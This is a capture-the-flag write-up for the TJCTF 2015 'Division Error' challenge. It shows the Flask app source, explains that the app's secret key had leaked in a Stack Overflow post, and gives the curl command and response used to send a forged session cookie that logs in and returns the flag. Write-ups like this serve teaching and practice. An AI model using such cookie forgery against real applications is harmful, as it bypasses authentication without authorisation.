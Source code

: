 ```yaml
---
layout: post
title: "TJCTF 2015 Division Error"
date: 2015-04-29 07:35:56 -0400
author: [swappage]
comments: true
categories: [tjctf]
---
```


### Solved by Swappage

In this problem we were provided with the following python flask web application

```python
from flask import Flask, render_template, session, request
app = Flask(__name__)
app.secret_key = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

@app.route('/',methods=['GET','POST'])
def index():
    if request.method == 'POST':
        a = int(request.form['a'])
        b = int(request.form['b'])
        # Updated 11/19/2014 by Steve Katz - Couldn't figure out why this was returning the wrong result, so asked online
        result = a*1.0/b
        return render_template('index.html',session=session,result=result)
    if 'loggedin' in session and session['loggedin']:
        flag = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
        return render_template('index.html',session=session,flag=flag)
    return render_template('index.html',session=session)

@app.route('/login',methods=['GET','POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin' and password == 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX':
            session['loggedin'] = True
            return render_template('login.html',session=session,loggedin=True)
        return render_template('login.html',session=session,loggedin=False)
    return render_template('login.html',session=session)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

And we needed to successfully login.
The division error wasn't the real problem, the application doesn't have a flaw itself, yet if we look at the comment at line 10
we can see that the author asked online for help on the problem

By searching on google we could find the question about the division error problem on stack overflow, and the author of the question, while posting the code snipplet
forgot to remove the application secret key used to sign the session cookies.

By using that secret key and replacing it in the source code, we could run the server locally, forge a correctly signed session cookie and send it to the real application to retrieve the flag

    $ curl -b 'session=eyJsb2dnZWRpbiI6dHJ1ZX0.CB7KBQ.aS33adDXgYjBWYdGAg2MuqjjV1A; Path=/; HttpOnly' http://division-error.p.tjctf.org -v

    * About to connect() to division-error.p.tjctf.org port 80 (#0)
    *   Trying 137.117.56.127...
    * connected
    * Connected to division-error.p.tjctf.org (137.117.56.127) port 80 (#0)
    > GET / HTTP/1.1
    > User-Agent: curl/7.26.0
    > Host: division-error.p.tjctf.org
    > Accept: */*
    > Cookie: session=eyJsb2dnZWRpbiI6dHJ1ZX0.CB7KBQ.aS33adDXgYjBWYdGAg2MuqjjV1A; Path=/; HttpOnly
    >
    * additional stuff not fine transfer.c:1037: 0 0
    * HTTP 1.1 or later with persistent connection, pipelining supported
    < HTTP/1.1 200 OK
    < Server: nginx/1.6.2 (Ubuntu)
    < Date: Wed, 29 Apr 2015 11:31:30 GMT
    < Content-Type: text/html; charset=utf-8
    < Content-Length: 2327
    < Connection: keep-alive
    < Set-Cookie: session=eyJsb2dnZWRpbiI6dHJ1ZX0.CCJSkg.rya2_MVigs5eluOD5hLhOyAbwdU; HttpOnly; Path=/
    <
    <!DOCTYPE html>
    <html>
    <head>
    ...
    <p>Wow, you did it! The flag is woah_that_was_some_nice_session_magic.</p>

the flag is

    woah_that_was_some_nice_session_magic

